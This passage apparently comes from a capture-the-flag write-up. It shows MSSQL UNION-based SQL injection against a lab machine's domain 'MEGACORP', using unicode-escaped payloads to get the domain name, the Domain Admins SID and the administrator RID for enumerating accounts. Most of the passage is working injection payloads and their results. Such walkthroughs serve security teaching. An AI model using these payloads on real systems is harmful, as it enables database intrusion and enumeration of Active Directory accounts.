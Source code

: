     
    
    test' UNION ALL SELECT 58,58,58,DEFAULT_DOMAIN(),58-- gxQm
    

Which encodes to:

    
    
    \u0074\u0065\u0073\u0074\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0041\u004C\u004C\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0035\u0038\u002C\u0035\u0038\u002C\u0035\u0038\u002C\u0044\u0045\u0046\u0041\u0055\u004C\u0054\u005F\u0044\u004F\u004D\u0041\u0049\u004E\u0028\u0029\u002C\u0035\u0038\u002D\u002D\u0020\u0067\u0078\u0051\u006D
    

Which returns MEGACORP:

![image-20200331064000628](https://0xdfimages.gitlab.io/img/image-20200331064000628.png)

#### Get a Domain RID

Now I need to get a domain RID using the `SUSER_SID` function on a known group
(I’ll use `MEGACORP/Domain Admins`):

    
    
    test' UNION ALL SELECT 58,58,58,SUSER_SID('MEGACORP\Domain Admins'),58-- gxQm
    

Returns a result, but it’s a funky encoding because it’s being interpreted as
a string:

![image-20200331064533176](https://0xdfimages.gitlab.io/img/image-20200331064533176.png)

The article shows a nice hex number coming back, not that garbage. On
[StackOverflow](https://stackoverflow.com/questions/703019/convert-integer-to-
hex-and-hex-to-integer) I found how I could convert this to hex in the query:

    
    
    test' UNION ALL SELECT 58,58,58,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),58-- gxQm
    

And it works:

![image-20200331064726245](https://0xdfimages.gitlab.io/img/image-20200331064726245.png)

The RID is `0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000`, which
makes the domain SID `0x0105000000000005150000001c00d1bcd181f1492bdfc236`.

#### Build a User RID

I know the default administrator is RID 500. So I can make this RID by taking
500, converting to hex (0x1f4), padding it to 4 bytes (0x000001f4), and
reversing the byte order (0xf4010000). So the administrator RID should be
`0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000`. To check, I’ll
run `SUSER_SNAME`:

    
    
    test' UNION ALL SELECT 58,58,58,SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000),58-- gxQm
    
